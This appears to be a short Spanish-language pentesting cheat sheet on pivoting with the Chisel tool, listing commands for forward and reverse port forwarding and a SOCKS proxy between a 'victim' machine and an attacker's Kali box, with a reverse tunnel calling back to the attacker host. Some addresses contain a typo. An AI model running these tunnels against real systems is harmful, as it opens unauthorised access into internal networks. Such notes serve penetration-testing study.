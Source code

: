 # Chisel for pivoting

- [Descargar Chisel](https://github.com/jpillora/chisel/releases)

### Chisel en maquina victima:
- `./chisel server --socks5 --port 51234`

### Chisel en maquina atacante kali
- `./chisel client victim-box-ip:51234 127.0.0.1:8001:127.0.0.1:8001 127.0.0.1:8443:127.0.01:8443`
    - Con esto vemos esos puertos en nuestro local
- Si no también así: `./chisel client attack-box-ip:51234 R:8001:127.0.0.1:8001 R:8443:127.0.01:8443`

## Chisel con socks

### Maquina victima
- `./chisel server --socks5 --port 51234`

### Maquina atacante kali
- `./chisel client target-box-ip:51234 50080:socks`

# Reverse port forwarding
- Ejecutar chisel server en maquina atacante en modo reverso

### Chisel en maquina atacante kali
- `./chisel server --reverse --port 51234`

### Chisel en maquina victima
- `./chisel client attack-box-ip:51234 R:50080:socks`

#### Se puede combinar con ligolo + revert port por si no hay acceso SSH